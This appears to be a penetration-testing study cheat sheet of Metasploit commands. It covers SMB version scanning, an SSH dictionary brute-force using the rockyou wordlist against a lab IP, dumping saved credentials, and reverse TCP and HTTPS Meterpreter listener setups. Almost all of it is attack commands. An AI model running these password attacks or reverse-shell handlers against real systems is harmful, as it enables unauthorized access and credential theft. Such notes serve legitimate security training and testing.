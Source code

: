 Enumerate SMB version
```msfconsole
use auxiliary/scanner/smb/smb_version
services -p 445 --rhosts
run
```

Displaying vulnerabilities identified by Metasploit
```msfconsole
vulns
```

#Password_Attacks #SSH 

## SSH Brute Force

Use Metasploit to perform a dictionary attack against SSH
Search for SSH auxiliary modules
```msfconsole
search type:auxiliary ssh
```

Use auxiliary/scanner/ssh/ssh_login
```msfconsole
use 15
```

Set options of _ssh_login_
```msfconsole
set PASS_FILE /usr/share/wordlists/rockyou.txt
set USERNAME hentaisalesman
set RHOSTS 192.168.123.169
set RPORT 2222
```

Displaying all saved credentials of the database
```msfconsole
creds
```

#Shell_Access #Remote_Access

## Getting a Shell

Start reverse TCP handler
```msfconsole
use multi/handler
set payload windows/x64/shell/reverse_tcp
set LHOST 192.168.69.169
set LPORT 443
run
```

Start reverse HTTPS handler
```msfconsole
use multi/handler
set payload windows/x64/meterpreter_reverse_https
set LHOST 192.168.69.123
set LPORT 443
run
```
